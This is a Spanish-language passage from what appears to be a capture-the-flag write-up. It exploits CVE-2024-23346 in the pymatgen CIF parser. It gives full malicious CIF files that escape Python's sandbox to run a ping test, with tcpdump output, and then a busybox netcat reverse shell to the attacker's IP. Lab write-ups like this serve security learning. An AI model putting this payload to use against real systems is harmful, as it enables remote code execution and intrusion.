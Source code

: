 Buscando vulnerabilidades relacionadas con este tipo de archivos encontramos la [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346).

Vamos a copiarnos el `POC` y a cambiarle el comando por un ping a nuestra ip para saber si está funcionando.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.90");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Mientras capturaremos los paquetes `ICMP` para ver si nos llega el ping.

```
tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:58:04.441986 IP 10.129.235.159 > 10.10.14.90: ICMP echo request, id 2, seq 1, length 64
19:58:04.442015 IP 10.10.14.90 > 10.129.235.159: ICMP echo reply, id 2, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

Nos ha llegado, vamos ahora a mandarnos una reverse shell.

Tras unos intentos de entablarnos una reverse shell, descubrimos que solo es posible con el payload de `busybox nc 10.10.14.90 1234 -e /bin/bash`, para ver tipos típicos de reverse shell podeis visitar la página: https://www.revshells.com.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.90 1234 -e /bin/bash");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
